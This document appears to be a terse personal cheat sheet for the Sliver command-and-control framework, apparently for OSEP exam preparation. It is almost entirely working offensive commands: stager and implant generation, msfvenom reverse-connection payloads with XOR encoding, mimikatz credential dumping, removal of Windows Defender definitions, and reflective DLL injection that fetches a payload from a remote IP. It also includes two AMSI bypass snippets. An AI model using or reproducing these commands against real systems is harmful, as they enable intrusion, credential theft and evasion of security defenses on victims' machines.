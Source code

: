 # Install Guide:

- https://bishopfox.com/blog/passing-the-osep-exam-using-sliver

- Run the following command, sliver install complete
```bash
curl https://sliver.sh/install|sudo bash 
systemctl start sliver
systemctl enable sliver
```

- Run the following to install tooling:
```bash
sliver
armory install *
```

# Stagers


```bash
# Set -a 386 for word macros
profiles new --mtls ip:443 --format shellcode win-shellcode

mtls -l 443

stage-listener --url http://ip:8443 --profile win-shellcode --prepend-size

generate stager --lhost ip --lport 8443 --protocol http 

# the above will likely not work so try the following:
# Adjust the format as needed, common formats: exe, raw, csharp, vbapplication. x86 for macros
msfvenom -a x64 -p windows/x64/custom/reverse_winhttp LHOST=tun0 LPORT=8443 LURI=/payload.woff -f exe -o sliverstage.exe EXITFUNC=thread


# Use this with hollowghost
msfvenom -p windows/x64/custom/reverse_winhttp LHOST=tun0 LPORT=8443 EXITFUNC=thread LURI=/payload.woff -f csharp --encrypt xor --encrypt-key z -i 20 | tr -d '\n\r'
```

# Generating malware
```bash

# DLL
generate -e -f shared -m 192.168.45.249:443 -R

# executable
generate  -e -f exe -m 192.168.45.249:443 

# For beacons add `beacon` at the beginning and `-S` for timeout and `-J` for jitter

# Generate shellcode to execute in sliver process, be sure to upload a session to execute it.
donut /var/www/html/bin/PrintSpoofer64.exe -a 2 -b 2 -o /tmp/payload.bin -p '-c c:\windows\tasks\sph.exe'
```

# Executing Commands

# Sideloading tools
```
sideload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "exit"
```

# Nuke defender
```
execute -o cmd /c "C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
```

# Injection 
```
$bytes = (New-Object System.Net.WebClient).DownloadData('http://192.168.45.192/bruh.dll'); $procid = (Get-Process -Name explorer).Id ;Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid
```

# AMSI:
```
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```
- this better 
```
$a = [Ref].Assembly.GetTypes();foreach ($b in $a) {if ($b.Name -like "*ils") {if ($b.Name -like "Am*"){$c=$b}}};$d = $c.GetFields('NonPublic,Static');foreach($e in $d) {if ($e.Name -like "*itFa*") {$f=$e}};$f.SetValue($null,$true)
```
